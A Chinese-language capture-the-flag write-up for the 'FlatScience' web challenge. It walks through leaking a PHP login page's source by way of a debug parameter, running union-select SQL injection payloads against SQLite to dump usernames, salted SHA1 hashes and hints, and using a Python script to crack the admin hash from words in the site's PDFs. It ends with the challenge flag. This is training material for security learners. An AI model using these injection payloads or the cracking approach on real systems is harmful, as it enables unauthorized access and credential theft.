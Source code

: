 # FlatScience

[题目地址](https://adworld.xctf.org.cn/challenges/details?hash=25991ba8-527f-443a-a66b-9c9d79a29162_2)

我真的过于菜了。这题其实不难。

![website](../../images/FlatScience.png)

这好像是个论文网站，一个一个链接点击去发现还真是pdf格式的论文。到处乱翻没啥收获，看下有没有robots.txt。

- User-agent: *<br>Disallow: /login.php<br>Disallow: /admin.php

这下就暴露了两个很重要的文件了。login.php就是普通登录框，admin.php是管理员登录，很有可能是我们的目标。admin.php里有这样一句话“do not even try to bypass this”，意为不要想着绕过登录。ctf里有好多此地无银三百两的注释，所以我以为这里就是要绕过登录……试了半天发现不行，结果去login.php一下就报错了。原来这次的注释是真的(⌒-⌒; )

然后猜闭合。'号报错但"没有报错，看来是单引号闭合形式。直接上union select，在列数为2的时候没有报错，但是不知道为什么返回了首页。回到login.php检查源代码，发现了一个可疑的注释：TODO: Remove ?debug-Parameter!

?debug参数……get传参？

```php
<?php
ob_start();
?>
<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01//EN">

<html>
<head>
<style>
blockquote { background: #eeeeee; }
h1 { border-bottom: solid black 2px; }
h2 { border-bottom: solid black 1px; }
.comment { color: darkgreen; }
</style>

<meta http-equiv="Content-Type" content="text/html; charset=iso-8859-1">
<title>Login</title>
</head>
<body>


<div align=right class=lastmod>
Last Modified: Fri Mar  31:33:7 UTC 1337
</div>

<h1>Login</h1>

Login Page, do not try to hax here plox!<br>


<form method="post">
  ID:<br>
  <input type="text" name="usr">
  <br>
  Password:<br> 
  <input type="text" name="pw">
  <br><br>
  <input type="submit" value="Submit">
</form>

<?php
if(isset($_POST['usr']) && isset($_POST['pw'])){
        $user = $_POST['usr'];
        $pass = $_POST['pw'];

        $db = new SQLite3('../fancy.db');
        
        $res = $db->query("SELECT id,name from Users where name='".$user."' and password='".sha1($pass."Salz!")."'");
    if($res){
        $row = $res->fetchArray();
    }
    else{
        echo "<br>Some Error occourred!";
    }

    if(isset($row['id'])){
            setcookie('name',' '.$row['name'], time() + 60, '/');
            header("Location: /");
            die();
    }

}

if(isset($_GET['debug']))
highlight_file('login.php');
?>
<!-- TODO: Remove ?debug-Parameter! -->




<hr noshade>
<address>Flux Horst (Flux dot Horst at rub dot flux)</address>
</body>
```

这就出来源代码了？根据源代码可知，我们的查询结果会被放到根目录的cookie中。难怪刚刚没有回显反而回到了首页。查看cookie的值可以发现是“+2”，那么2就是会回显的列。接下来就是日常的一条龙服务了。注意这里使用的是sqlite，和sql有些许不同。例如sqlite中sqlite_master表保存数据库表的关键信息，而不是information_schema。

- ### sqlite_master
  > CREATE TABLE sqlite_master (<br>type text,<br>name text,<br>tbl_name text,<br>rootpage integer,<br>sql text<br>);

查询表时，type 字段永远是’table’,name 永远是表的名字。tbl_name可以用于索引查询，即type 等于 ‘index’。name 则是索引的名字，tbl_name 是该索引所属的表的名字。

- ' union select 1,group_concat(name) from sqlite_master where type='table'--+

看到有个叫Users的表。

- ' union select 1,group_concat(sql) from sqlite_master where name='Users'--+
> +CREATE+TABLE+Users%28id+int+primary+key%2Cname+varchar%28255%29%2Cpassword+varchar%28255%29%2Chint+varchar%28255%29%29

看看这些字段都是啥。

- ' union select 1,id from Users limit 1,1--+
- ' union select 1,name from Users limit 1,1--+
- ' union select 1,password from Users limit 1,1--+
- ' union select 1,hint from Users limit 1,1--+

> id name password hint<br>1 admin 3fab54a50e770d830c0416df817567662a9dc85c +my+fav+word+in+my+fav+paper?!<br>2 fritze 54eae8935c90f467427f05e4ece82cf569f89507 +my+love+is…?<br>3 hansi 34b0bb7c304949f9ff2fc101eef0f048be10d3bd +the+password+is+password

这里利用了limit进行移位查询。

- ### limit
  > LIMIT 子句可以被用于强制 SELECT 语句返回指定的记录数。<br>LIMIT 接受一个或两个数字参数。参数必须是一个整数常量。<br>如果给定两个参数，第一个参数指定第一个返回记录行的偏移量，第二个参数指定返回记录行的最大数目。<br>初始记录行的偏移量是 0(而不是 1)

所以' union select 1,name from Users limit 1,1--+可以查询Users中name字段第一行的数据，' union select 1,name from Users limit 2,1--+可以查询Users中name字段第二行的数据……以此类推。

或者也可以直接 ' union select 1,group_concat(name) from Users--+ ，一次查完全部数据。

根据 \$res = \$db->query("SELECT id,name from Users where name='".\$user."' and password='".sha1($pass."Salz!")."'"); 可以得知 明文密码+Salz! 的sha1值就是password。偷懒的方法是放到[这里](https://www.somd5.com/)解密，而正确做法是爬取全部pdf论文然后一个一个试（根据my+fav+word+in+my+fav+paper?!提示得出）

直接上大佬的代码吧，我很明显是属于偷懒那拨人的。

```python
from cStringIO import StringIO
from pdfminer.pdfinterp import PDFResourceManager, PDFPageInterpreter
from pdfminer.converter import TextConverter
from pdfminer.layout import LAParams
from pdfminer.pdfpage import PDFPage
import sys
import string
import os
import hashlib

def get_pdf():
    return [i for i in os.listdir("./") if i.endswith("pdf")]


def convert_pdf_2_text(path):
    rsrcmgr = PDFResourceManager()
    retstr = StringIO()
    device = TextConverter(rsrcmgr, retstr, codec='utf-8', laparams=LAParams())
    interpreter = PDFPageInterpreter(rsrcmgr, device)
    with open(path, 'rb') as fp:
        for page in PDFPage.get_pages(fp, set()):
            interpreter.process_page(page)
        text = retstr.getvalue()
    device.close()
    retstr.close()
    return text


def find_password():
    pdf_path = get_pdf()
    for i in pdf_path:
        print "Searching word in " + i
        pdf_text = convert_pdf_2_text(i).split(" ")
        for word in pdf_text:
            sha1_password = hashlib.sha1(word+"Salz!").hexdigest()
            if sha1_password == '3fab54a50e770d830c0416df817567662a9dc85c':
                print("Find the password :" + word)
                exit()

if __name__ == "__main__":
```

- ### Flag
- > flag{Th3_Fl4t_Earth_Prof_i$_n0T_so_Smart_huh?}
